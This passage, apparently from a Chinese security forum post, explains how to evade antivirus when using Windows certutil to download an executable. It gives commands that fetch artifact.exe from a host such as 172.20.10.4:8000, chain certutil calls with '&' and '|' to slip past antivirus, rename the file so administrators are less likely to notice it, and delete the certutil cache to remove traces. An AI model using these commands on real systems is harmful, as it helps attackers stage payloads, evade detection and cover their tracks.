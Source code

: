 [![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ff5633b18882fc5f16042ed264bb6af6a9b9b4cb.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ff5633b18882fc5f16042ed264bb6af6a9b9b4cb.png)

这里有两种方法对杀软进行`certutil`下载绕过，本质都是执行两次`certutil`

第一种方法是先执行一个单独的`certutil`，然后再执行下载exe的命令，可以看到这里已经能够成功下载

```php
certutil

certutil -urlcache -split -f http://ip/artifact.exe
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c502984b51bed8e35bd912eaac4ae5918a20de3d.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c502984b51bed8e35bd912eaac4ae5918a20de3d.png)

另外一种方法就是使用windows自带的分隔符`&`和`|`，本质上跟第一种方法一样，相当于执行了两次`certutil`

```php
certutil & certutil -urlcache -split -f http://ip/artifact.exe

certutil | certutil -urlcache -split -f http://ip/artifact.exe
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-14c528f41d57bbc9113812b65e9d069512ab2ca5.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-14c528f41d57bbc9113812b65e9d069512ab2ca5.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6d995d5d4c8b2bc54dade1cf2e22fadf80a43d09.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6d995d5d4c8b2bc54dade1cf2e22fadf80a43d09.png)

这里也可以进行文件的重命名，如果你觉得这个文件名太过于明显容易被管理员发现就可以在下载的时候使用自己设置的名字生成exe

```php
certutil & certutil -urlcache -split -f http://172.20.10.4:8000/artifact.exe nice.exe
```

使用`certutil`下载文件有个弊端就是会产生缓存文件，用如下命令查看：

```php
certutil -urlcache *
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b3fd58ee0edbe8d1c9eb559a41e32f39f76761c6.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b3fd58ee0edbe8d1c9eb559a41e32f39f76761c6.png)

执行删除缓存

```php
certutil -urlcache * delete
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-fe2b3bc67aa1cddaeb8d3ced158650baf94307ae.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-fe2b3bc67aa1cddaeb8d3ced158650baf94307ae.png)

这里如果嫌麻烦的话可以在下载文件的时候加上一个`delete`参数，这样就省去了后面再来清理缓存的麻烦
